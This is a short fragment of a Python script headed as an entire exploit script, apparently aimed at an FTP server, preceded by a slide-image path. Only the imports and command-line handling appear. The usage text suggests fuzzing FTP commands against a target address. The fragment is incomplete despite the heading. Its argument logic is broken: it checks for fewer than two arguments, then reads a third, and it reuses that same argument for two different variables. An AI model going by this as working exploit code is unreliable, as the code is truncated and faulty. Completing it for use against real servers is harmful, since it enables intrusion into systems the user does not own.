

# ENTIRE EXPLOIT SCRIPT
import socket
import struct
import sys
import time
if len(sys.argv) < 2:
    print("[-]Usage: %s <target addr> <command>" % sys.argv[0] + "\r")
    print("[-]For example [filename.py 192.168.1.10 PWND] would do the trick.")
    print("[-]Other options: AUTH, APPE, ALLO, ACCT")
    sys.exit(0)
target = sys.argv[1]
command = sys.argv[2]
if len(sys.argv) > 2:
    platform = sys.argv[2]